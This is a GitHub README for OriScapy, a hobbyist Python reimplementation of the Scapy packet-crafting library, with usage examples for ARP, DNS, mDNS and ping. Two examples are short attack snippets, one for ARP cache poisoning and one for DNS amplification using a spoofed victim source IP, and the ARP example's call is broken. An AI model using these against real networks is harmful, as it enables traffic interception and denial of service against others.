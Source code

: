 # OriScapy
This is a custom-made version of the well known [Scapy library for python](https://scapy.net/).


## Rationale
In my journey of learning about the fascinating world of Networking, I realised that Scapy    
is something im using all the time, without needing to worry about all the     
stuff it does in the background automatically.   
For example, when crafting an ARP request:

```python
pkt = Ether()/ARP(pdst="<Get_This_IP's_Mac")
mac = srp1(pkt)[ARP].hwsrc
```

Scapy automatically fills a good deal of fields of the ARP header.    
for example, you don't have to worry about these fields:
```text
  hwtype, ptype, hwlen, plen, op, hwsrc, psrc, hwdst      
```
Which Scapy automatically fills according to the [RFC Specification](https://datatracker.ietf.org/doc/html/rfc826) / [ARP packet header](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)

Also, no parameters were given to the `Ether` class constructor,   
although the Ethernet header obviously contains some info:
```text
dst, src, type
```

All those fields are automatically completed by Scapy for your own comfort.   
Scapy automatically detects the type of packet to be sent is ARP,  
And so it sets the `type` field to `0x806 (ARP)`, like it should be.   
Also, the `Source MAC` and the `Destination MAC` are automatically detected and filled.

And so I wanted for my knowledge about Networking, to learn more about  
the most famous packets' header format.   
And to do that I thought to make my own Scapy which would support    
Ethernet, ARP, IP, ICMP, UDP, DNS and maybe more in the future.

## Usage
**First of all, don't. Please just use [Scapy](https://pypi.org/project/scapy/).**   
But if you insist, then its basically the same as Scapy. Here are some examples:    
**__Note that OriScapy only works on Linux.__**     
#### ARP Queries

```python
from All import *

ip = "192.168.1.2"

# Resolve 192.168.1.2's MAC Address
pkt = Ether()/ARP(pdst=ip)  # Everything is auto-completed :)
ans = sendreceive(pkt)
print(f"{ip}'s MAC address is {ans.hwsrc}")
```

#### ARP Spoofing/Cache Poisoning
```python
from All import *

def poison(target_ip, target_mac, fake_ip, fake_mac, count=50):
    pkt = Ether(src=fake_mac)/ARP(hwsrc=fake_mac, psrc=fake_ip, hwdst=target_mac, pdst=target_ip, opcode=2)
    for _ in range(count):
        send(pkt)

poison(pkt, count=50)

```


#### DNS Queries
(No support for Additional and Authorative RRs)
```python
from All import *  
  
# Resolve google.com by querying google's DNS server (8.8.8.8)  
pkt = Ether()/IP(dst="8.8.8.8")/UDP(dport=53)/DNS(qd=DNSQR(qname="google.com"))  
ans = sendreceive(pkt, timeout=3)

for answer_record in ans.an:
    print(answer_record.rdata)
```

#### DNS Amplification
```python
from All import *

def dns_amp(target_ip):
    pkt = Ether()/IP(src=target_ip, dst="ip.of.dns.server")/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="google.com", qtype=255))
    send(pkt)

dns_amp("192.168.1.2")
```

#### Resolve Hostname in LAN
```python
from All import *  
  
# To query the local LAN for the IP of hostname "myHostname"  
# a DNS Query is sent to multicast ip "224.0.0.251" and port 5353, also known as  
# multicast-DNS (mDNS). Inside the query, the qname should be "hostname"+".local"  
  
pkt = Ether()/IP(dst="224.0.0.251")/UDP(dport=5353)/DNS(qd=DNSQR(qname="myHostname.local"))  
  
# IP may come back either to the multicast address, or directly to the host PC's IP.
# Which means that you can't tell whether a packet is an answer to `pkt` based on
# the dst and src IP inside it, so we set flipIP to False
ans = sendreceive(pkt, flipIP=False)  
  
for answer_record in ans.an:  
    print(answer_record.rdata)
```

#### Ping an IP
```python
from All import *

# Ping google's DNS server
pkt = Ether()/IP(dst="8.8.8.8")/ICMP()
res = sendreceive(pkt, timeout=2)
print(res)
```
    

#### mDNS Cache Poisoning 
```python
from All import *
# Example TBC
# Requires IPv6 since Windows 10 only registers
# a spoofed mDNS if both IPv4 and IPv6 are sent.
```
